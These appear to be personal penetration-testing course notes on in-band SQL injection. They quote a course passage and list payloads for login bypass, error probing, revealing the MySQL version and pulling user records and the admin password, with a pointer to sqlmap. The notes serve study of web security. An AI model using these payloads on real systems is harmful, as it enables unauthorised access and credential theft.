 
Sometimes the output will not change but the injected input will still process, if this happens it may be worth attempting to inject with sqlmap.

`SQL injection is considered _in-band_ when the vulnerable application provides the result of the query along with the application-returned value. In this scenario, we've enabled SQL debugging inside the web application; however, most production-level web applications won't show these error messages because revealing SQL debugging information is considered a security flaw.`

`offsec' or 1=1 -- //` - force an apostrophe and set or true to attempt bypass of login.

`offsec'` - append a single quote in an attempt to reveal an SQL syntax error.

`' or  1=1 in (select @@version) -- //` - spit out version of current MySQL server (@@version also works for MySQL as well as MSSQL).

`' or 1=1 in (select * from users) -- //` - retrieving all users from users table with sqli. If face with error - understand and try again, you main only be able to select one column at a time.

`' or 1=1 in (select password from users) -- //` - selecting a single column from a table.

`' or 1=1 in (select password from users where username = 'admin')` - specify single column injection.